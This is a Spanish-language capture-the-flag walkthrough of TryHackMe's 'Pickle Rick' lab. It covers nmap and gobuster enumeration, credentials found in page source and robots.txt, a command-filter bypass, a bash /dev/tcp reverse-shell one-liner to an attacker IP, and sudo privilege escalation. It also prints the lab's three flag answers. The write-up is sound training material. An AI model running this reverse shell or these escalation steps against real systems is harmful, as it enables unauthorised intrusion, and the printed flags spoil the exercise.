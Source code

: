 Pickle Rick es un CTF de nivel inicial de THM, en el cual se nos encomienda convertir nuevamente en humano a rick, que en esos momentos se encuentra convertido en pepinillo. Para esa tarea debemos encontrar en la computadora de Rick los 3 ingredientes necesarios para que este regrese a su estado de humano.
Para ello primero realizamos a enumeración y el reconocimiento del sistema investigado
Enumeración
## nmap
Utilizando el comando `nmap -sC -sV 10.10.242.104 -oN nmapPick` obtenemos los siguientes resultados:

![Pasted image 20230218112511](https://user-images.githubusercontent.com/24280145/222928607-be1992f4-4dd1-4fa3-90a8-a47f34a60522.png)

**puertos abiertos**

`http 80`

`ssh 22`

## curl
utilizando el comando  `curl 10.10.242.104 > cPick`

![Pasted image 20230218110137](https://user-images.githubusercontent.com/24280145/222929129-a3ba3365-6c73-4dac-93e1-e80f1da6bb2b.png)

Encontramos un nombre de usuario en el documento HTML 

`Username: R1ckRul3s`


## Gobuster
Utilizando el comando `gobuster -u http://10.10.242.104 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` obtenemos lo siguiente

![Pasted image 20230218113243](https://user-images.githubusercontent.com/24280145/222929984-b355969d-1b50-49a6-a771-f3c85499b9b2.png)

Buscamos directorios con extensión .php y .html  `gobuster -u http://10.10.242.104 -t 50 -w /usr/share/wordlists/dirbuster/common.txt -x .php,.html`

**Nota**: La lista common.txt fue extraida de: https://gitlab.com/kalilinux/packages/dirb/blob/f43c03a2bef91118debffd6cec9573f21bb5f9e8/wordlists/common.txt

Utilizamos el comando `sudo mv common.txt /usr/share/wordlists/dirbuster/common.txt` para mover el archivo a la carpeta dirbuster (no es obligatorio)

![Pasted image 20230218120112](https://user-images.githubusercontent.com/24280145/222931429-c6f3160d-2b68-4314-8626-86964a4cc6de.png)

Con este informe conocemos que:
**index.html**: Es la página de inicio
**robots.txt**: contiene la cadena *Wubbalubbadubdub*
**login.php**: Nos muestra el siguietne acceso:


![Pasted image 20230218121122](https://user-images.githubusercontent.com/24280145/222931472-ad4667ac-1308-471a-8f55-769c46c0aebe.png)

# Obtención de acceso
Utilizando el username encontrado en el código *html de la web* y la cadena encontrada en *robots.txt*. Accedemos como usuarios del sistema en el **Potal Login Page**:

`username: R1ckRul3s`

`password: Wubbalubbadubdub`

![Pasted image 20230218121459](https://user-images.githubusercontent.com/24280145/222931603-18fac2c4-282a-44c7-b3c7-8ca1131fdee5.png)

### Ejecutando comandos

`whoami`

![Pasted image 20230218122054](https://user-images.githubusercontent.com/24280145/222931694-116e2af5-70e2-4953-9cba-38fac3088d00.png)

`pwd`


![Pasted image 20230218122147](https://user-images.githubusercontent.com/24280145/222931709-50e0e38b-7484-4872-9cac-169d3a2421e5.png)

`ls`

![Pasted image 20230218122256](https://user-images.githubusercontent.com/24280145/222931737-3a581e02-86e7-4dac-ac5d-5e128010fe91.png)

¡¡Hemos hallado el primer ingrediente...¡¡ pero los comandos estan filtrados de lectura de texto, y no podemos ver el contenido del fichero que contiene el segundo ingrediente

![Pasted image 20230218122725](https://user-images.githubusercontent.com/24280145/222931819-4bf64ac4-2de0-435b-a6ac-f7fe8f0ad763.png)

En este escenario podemos buscar nuevas soluciones (como acceder al sistema) o buscar un comando que si funcione (no este filtrado). realizando la prueba con los comandos `more`,`head`,`vim` ... Realizando prueba y error hallamos el comando `tac`. 


**Nota**: Para conocer los comandos de lectura de texto podemos visitar: https://www.geeksforgeeks.org/tac-command-in-linux-with-examples/

![Pasted image 20230218134055](https://user-images.githubusercontent.com/24280145/222931961-4a6b708e-f7aa-4e61-8116-240356af7a87.png)

**primer ingrediente**: `-r. meeseek hair`

![Pasted image 20230218133953](https://user-images.githubusercontent.com/24280145/222932243-b3b0cb51-e3ad-48d6-97a7-ea6c08317ba8.png)

el archivo `clue.txt` nos da la pista para el siguietne ingrediente:

![Pasted image 20230218123816](https://user-images.githubusercontent.com/24280145/222932262-3ab34109-3715-4cab-a655-3dc7a8efc5a8.png)

*Busca en el sistema de archivos el otro ingrediente.*

# Reverse Shell
Usando el comando `/bin/bash -c 'bash -i >& /dev/tcp/<IP_Atacante>/4444 0>&1'` en **Command Panel** abrimos el acceso al servidor.
posteriormente iniciamos un servidor de escucha con netcat: `nc -lvnp 4444` utilizando el puerto 4444

![Pasted image 20230218125944](https://user-images.githubusercontent.com/24280145/222932303-0d4eb873-a8e6-4dad-ae36-50e53ccec13a.png)

**Una vez dentro del sistema procedemos a navegar en los archivos**

![Pasted image 20230218130911](https://user-images.githubusercontent.com/24280145/222932321-6a4851e3-45a0-4464-844a-d09266cec24f.png)

En el directorio `home/rick/` hallamo el segundo ingrediente

![Pasted image 20230218131156](https://user-images.githubusercontent.com/24280145/222932345-9050b2e3-5386-4c08-818e-52446d8586b4.png)

**segundo ingrediente**: `jerry tear`

**Revisando los permisos, hallamos que la carpeta root no es accesible para los usuarios comunes**

![Pasted image 20230218132952](https://user-images.githubusercontent.com/24280145/222932378-d22be2b1-0447-438f-81d5-419e656a7c16.png)

# Escalamiento de privilegios 

En este caso la solución es relativamente sencilla pues el usuario www-data puede ejecutar con permiso sudo

![Pasted image 20230218132803](https://user-images.githubusercontent.com/24280145/222932420-4c878774-1fd7-471a-b0b8-711e63c43e5c.png)

**Ejecutamos bash como administrador**
Posteriormente ingresamos a la carpeta root `cd /root` y obtenemos el 3er ingrediente

![Pasted image 20230218133541](https://user-images.githubusercontent.com/24280145/222932655-ec7833ef-ecad-4ecb-a01a-92f181b2ed1d.png)

**tercer ingrediente**: `fleeb juice`
